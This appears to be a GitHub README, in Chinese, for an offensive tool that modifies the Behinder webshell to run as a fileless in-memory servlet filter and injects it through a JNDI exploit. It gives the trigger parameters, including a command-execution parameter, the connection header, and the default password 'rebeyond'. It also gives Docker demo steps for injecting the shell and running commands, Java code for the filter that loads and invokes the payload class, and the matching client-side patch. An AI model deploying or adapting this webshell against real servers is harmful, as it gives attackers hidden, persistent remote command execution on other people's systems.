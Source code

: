 # JNDIExploit4MemShell
研究將冰蠍修改為內存馬方式執行。

* Check MemShell
  * XXXXX?type=check
* 一句話木馬
  * XXXXX?type=basic&pass=[cmd]
* 冰蠍
  * 任意路徑
  * Header中加入 `X-Options-Ai: XXXXX`
  * 密碼 rebeyond

# Update
* 2022/06/11
  * 支援 SpringMemshell 的冰蠍功能

# Demo
* docker build -t memshell . --no-cache
* docker run -it memshell
* 訪問 http://172.17.0.2:8080/inject.jsp 觸發注入 MemShell
* 訪問 http://172.17.0.2:8080/inject.jsp?type=basic&pass=id 檢查是否執行網馬
* 用冰蠍連接 MemShell

# 解析

冰蠍的運作原理是將 Payload 中的 Class 透過 ClassLoader 的 defineClass 函式，將 Bytes 還原回 Class，Payload 的 Class 入口函式是 equals，內容如下：
```
public boolean equals(Object obj) {
	PageContext page = (PageContext)obj;
	this.Session = page.getSession();
	this.Response = page.getResponse();
	this.Request = page.getRequest();
	...
}
```

obj 進入 equals 後會被轉換為 PageContext，進而獲取 Request、Response 及 Session，doFilter 函式中可以獲取 Request、Response，Session 則可以透過 Request 獲得，修改後的 MemShell 程式如下：
```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
	...
	HashMap<Object, Object> pageContext = new HashMap<>();
	pageContext.put("request", servletRequest);
	pageContext.put("response", servletResponse);
	pageContext.put("session", ((HttpServletRequest)servletRequest).getSession());
	...
	Method targetMethod = evilClass.getDeclaredMethod("equals", new Class[] { HashMap.class });
	targetMethod.invoke(evilClass.newInstance(), new Object[] { pageContext });
	...
}
```

因冰蠍接收端生成 Payload 的 Class入口函示仍為 equals(Object obj)，而非我們修改過的 equals(HashMap obj)，所以會在 invoke 時產生錯誤，所以接收端也需要進行修改，冰蠍3.0後的版本在 net.rebeyond.behinder.payload.java 下的程式皆須修改，將 equals 函式修改如下：
```
public boolean equals(HashMap obj) {
	this.Session = (HttpSession)obj.get("session");
	this.Response = (ServletResponse)obj.get("response");
	this.Request = (ServletRequest)obj.get("request");
	...
}
```

# Some Notes
* 更新 jar 包中的 class
  * `jar -uvf JNDIExploit.jar com\feihong\ldap\template\DynamicFilterTemplate.class`

# Reference
* [JNDIExploit](https://github.com/Jeromeyoung/JNDIExploit-1)
* [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ)
* [利用shiro反序列化注入冰蝎内存马](https://xz.aliyun.com/t/10696)
* [告别脚本小子系列丨JAVA安全(4)——ClassLoader机制与冰蝎Webshell分析](https://www.freebuf.com/articles/network/323994.html)
